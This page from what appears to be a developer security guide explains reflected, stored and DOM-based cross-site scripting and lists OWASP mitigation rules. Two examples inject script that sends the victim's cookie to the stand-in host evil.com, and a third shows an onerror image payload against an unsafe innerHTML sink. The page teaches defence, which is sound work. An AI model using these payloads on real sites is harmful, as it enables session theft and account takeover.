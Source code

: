 ```yaml
---
title: Cross-site scripting (XSS)
sidebar_position: 8
---
```


# Cross-site scripting (XSS)

## The Attack

<iframe
  width='100%'
  height='450'
  src='https://www.youtube.com/embed/L5l9lSnNMxg'
></iframe>

## Reflected XSS

![Reflected XSS sample workflow](/img/rxss.png)
_Image from [Christopher Makarem](https://medium.com/iocscan/reflected-cross-site-scripting-r-xss-b06c3e8d638a)_

### Keys

- The Attack is focused on the user input like crafted urls with mailicious payload.

### Example

It is very simple to add a malicious payload in a vulnerable website link.

```
http://website.com/search?keyword=<script>window.location='http://evil.com/?c='+document.cookie</script>
```

The victim will open this link and will be redirected to a malicious site with the cookie content in the URL.

Inside the malicious code we can add extra payloads like (ajax calls... )

## persistent XSS

![p-XSS sample workflow](/img/pxss.png)
_Image from [Christopher Makarem](https://medium.com/iocscan/persistent-cross-site-scripting-p-xss-557c70377554)_

### Keys

Also known as stored XSS. The malicious script comes from the website's database, so this attack requires few steps to succeed.

- In the first step the attacker will add a malicious payload to the server (so it will be stored).
- Later on the victims will access to the site and the malicious payload will be downloaded together with the legitimate content.

This attack can lead to Cookie theft, KeyLogging, Phishing...

### Example

The attacker adds a malicious payload in the comments section of the site.

```
POST "http://website.com/blog/post-1/comment", body{"<script>window.location='http://evil.com/?c='+document.cookie</script>}
```

Any user that visits the website will be vulnerable once this malicious comment is loaded.

## DOM XSS

![DOM-XSS sample workflow](/img/dom_xss.png)
_Image from [Christopher Makarem](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)_

### Keys

If the attacker controls any input field value, they can easily add malicious values:

```js
const search = document.getElementById('search').value
document.getElementById('results').innerHTML = `You searched for: ${search}`
```

```
You searched for: <img src=error onerror='/* Evil payload */'>
```

### Notable incidents

- [The Telegraph | TweetDeck hack hits BBC and White House accounts](https://www.telegraph.co.uk/technology/twitter/10894635/BBC-and-White-House-accounts-in-TweetDeck-hack.html)
- [VICE | The MySpace Worm that Changed the Internet Forever](https://www.vice.com/en_us/article/wnjwb4/the-myspace-worm-that-changed-the-internet-forever)

## The solution

There are no definitive solutions to avoid this attack but it can be highly mitigated.

## Mitigation

### [Keys from OWASP Cheat sheets for XSS](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

- 0 - Never Insert Untrusted Data Except in Allowed Locations
- 1 - HTML Escape Before Inserting Untrusted Data into HTML Element Content
- 2 - Attribute Escape Before Inserting Untrusted Data into HTML Common Attributes
- 3 - JavaScript Escape Before Inserting Untrusted Data into JavaScript Data Values
- 3.1 - HTML escape JSON values in an HTML context and read the data with `JSON.parse`
- 4 - CSS Escape And Strictly Validate Before Inserting Untrusted Data into HTML Style Property Values
- 5 - URL Escape Before Inserting Untrusted Data into HTML URL Parameter Values
- 6 - Sanitize HTML Markup with a Library Designed for the Job
- 7 - Avoid JavaScript URL's

### [Keys from OWASP Cheat sheets for DOM XSS](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)

- 1 - HTML Escape then JavaScript Escape Before Inserting Untrusted Data into HTML Subcontext within the Execution Context
- 2 - JavaScript Escape Before Inserting Untrusted Data into HTML Attribute Subcontext within the Execution Context
- 3 - Be Careful when Inserting Untrusted Data into the Event Handler and JavaScript code Subcontexts within an Execution Context
- 4 - JavaScript Escape Before Inserting Untrusted Data into the CSS Attribute Subcontext within the Execution Context
- 5 - URL Escape then JavaScript Escape Before Inserting Untrusted Data into URL Attribute Subcontext within the Execution Context
- 6 - Populate the DOM using safe JavaScript functions or properties
- 7 - Fixing DOM Cross-site Scripting Vulnerabilities

### Other

- The [Recommendations for HTTP Headers in this guide](/http-headers/intro)

### Refs

- [ckarande | Top Overlooked Security Threats to Node.js Web Applications](https://speakerdeck.com/ckarande/top-overlooked-security-threats-to-node-dot-js-web-applications?slide=24)
- [Scott Smith | Cross Site Scripting (XSS)](http://scottksmith.com/blog/2015/06/22/secure-node-apps-against-owasp-top-10-cross-site-scripting/)
- [portswigger | Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)
- [Medium | Persistent Cross Site Scripting (p-XSS)](https://medium.com/iocscan/persistent-cross-site-scripting-p-xss-557c70377554)
- [Medium | DOM-Based Cross Site Scripting (DOM-XSS)](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)
- [Medium | Reflected Cross Site Scripting (r-XSS)](https://medium.com/iocscan/reflected-cross-site-scripting-r-xss-b06c3e8d638a)
- [Computerphile | Cracking Websites with Cross Site Scripting](https://www.youtube.com/watch?v=L5l9lSnNMxg)
